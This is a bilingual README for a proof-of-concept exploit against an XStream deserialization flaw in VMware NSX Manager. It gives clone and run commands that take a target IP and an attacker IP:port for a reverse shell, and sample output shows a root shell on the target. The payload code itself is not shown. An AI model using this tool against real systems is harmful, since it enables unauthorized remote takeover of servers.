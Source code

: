 
# EN
**GenVMNSXDeserExec** is a PoC exploit targeting the XStream deserialization vulnerability in VMware NSX Manager. The vulnerability allows for remote code execution (RCE) on the affected versions of the VMware NSX Manager platform.

This PoC leverages an XML payload to exploit the XStream deserialization flaw in VMware NSX Manager. Upon successful exploitation, the payload creates a reverse shell connection to the attacker's machine, allowing full control of the target system. This tool is designed for educational purposes and should only be used in environments where you have explicit permission.

## Affected Version

- **VMware NSX Manager 6.4.13-19307994**


## Features

- Remote Code Execution (RCE) on vulnerable VMware NSX Manager.
- Customizable reverse shell connection to attacker’s machine.
- Easy-to-use command-line interface.

## Usage

### Prerequisites

- Python 3.x installed on your system.
- Access to a vulnerable VMware NSX Manager instance.
- An open port to receive reverse shell connections.

## Installation

Clone the repository and navigate to the project directory:

```bash
git clone https://github.com/geniuszly/GenVMNSXDeserExec
cd GenVMNSXDeserExec
```

## Running the Exploit

The exploit requires two parameters: the target IP address and the attacker's IP and port for the reverse shell connection. The format is as follows:

```bash
python3 GenVMNSXDeserExec.py <target_ip> <attacker_ip:port>
```

## Example

```bash
python3 GenVMNSXDeserExec.py 192.168.1.100 172.16.0.10:4444
```

This will start a listener on port `4444` and attempt to exploit the target at `192.168.1.100`. If successful, a reverse shell will be opened to the attacker's machine.

### Example output
```
[+] Запуск прослушивателя на порту 4444
[+] Отправка эксплойта на 192.168.1.100
[+] Эксплойт успешно отправлен, ожидайте обратного соединения.
[+] Получено подключение от 192.168.1.100
[+] Взаимодействие с обратным шеллом!
```
После успешного запуска эксплойта и получения соединения с целевым хостом будет открыт интерактивный Telnet-сессия, которая позволит выполнять команды на целевом сервере:
```
$ whoami
root
$ hostname
nsx-vmware-target
$ ls /root
flag.txt
$ cat /root/flag.txt
Congratulations, you've exploited the target!
```

## Notes

- Ensure that your firewall and network settings allow for reverse shell connections on the specified port.
- This PoC should only be used for educational and ethical purposes. Unauthorized use against systems you do not own or have permission to test is illegal and unethical.

## Disclaimer

This tool is for educational purposes only. The author is not responsible for any misuse or damage caused by this tool.


# GenVMNSXDeserExec

## Обзор

**GenVMNSXDeserExec** — это PoC эксплойт, нацеленный на уязвимость десериализации XStream в VMware NSX Manager. Данная уязвимость позволяет удаленно выполнить код (RCE) на уязвимых версиях платформы VMware NSX Manager.

Этот PoC использует XML-пейлоад для эксплуатации уязвимости десериализации XStream в VMware NSX Manager. При успешной эксплуатации пейлоад создает обратное соединение (reverse shell) на машину атакующего, предоставляя полный доступ к системе цели. Инструмент разработан для образовательных целей и должен использоваться только в средах, где у вас есть явное разрешение.

## Уязвимые версии

- **VMware NSX Manager 6.4.13-19307994**

## Возможности

- Выполнение удаленного кода (RCE) на уязвимом VMware NSX Manager.
- Настраиваемое обратное соединение на машину атакующего.
- Удобный интерфейс командной строки.

## Использование

### Требования

- Установленный Python 3.x.
- Доступ к уязвимой системе VMware NSX Manager.
- Открытый порт для приема обратного соединения (reverse shell).

## Установка

Клонируйте репозиторий и перейдите в каталог проекта:

```bash
git clone https://github.com/geniuszly/GenVMNSXDeserExec
cd GenVMNSXDeserExec
```

## Запуск эксплойта

Для работы эксплойта требуется указать два параметра: IP-адрес цели и IP-адрес и порт атакующего для обратного соединения. Формат:

```bash
python3 GenVMNSXDeserExec.py <ip_цели> <ip_атакующего:порт>
```

## Пример

```bash
python3 GenVMNSXDeserExec.py 192.168.1.100 172.16.0.10:4444
```
Это запустит прослушиватель на порту `4444` и попытается эксплуатировать цель по адресу `192.168.1.100`. В случае успешной эксплуатации на машине атакующего будет открыт обратный шелл.

### Пример вывода
```
[+] Запуск прослушивателя на порту 4444
[+] Отправка эксплойта на 192.168.1.100
[+] Эксплойт успешно отправлен, ожидайте обратного соединения.
[+] Получено подключение от 192.168.1.100
[+] Взаимодействие с обратным шеллом!
```
После успешного запуска эксплойта и получения соединения с целевым хостом будет открыт интерактивный Telnet-сессия, которая позволит выполнять команды на целевом сервере:
```
$ whoami
root
$ hostname
nsx-vmware-target
$ ls /root
flag.txt
$ cat /root/flag.txt
Congratulations, you've exploited the target!
```



## Заметки

- Убедитесь, что настройки сети и файрвола позволяют подключение обратного соединения на указанный порт.
- Этот PoC следует использовать только в образовательных и этических целях. Неавторизованное использование против систем, которые вам не принадлежат или на которые у вас нет разрешения, является незаконным и неэтичным.

## Отказ от ответственности

Этот инструмент предназначен только для образовательных целей. Автор не несет ответственности за любое неправильное использование или ущерб, причиненный данным инструментом.
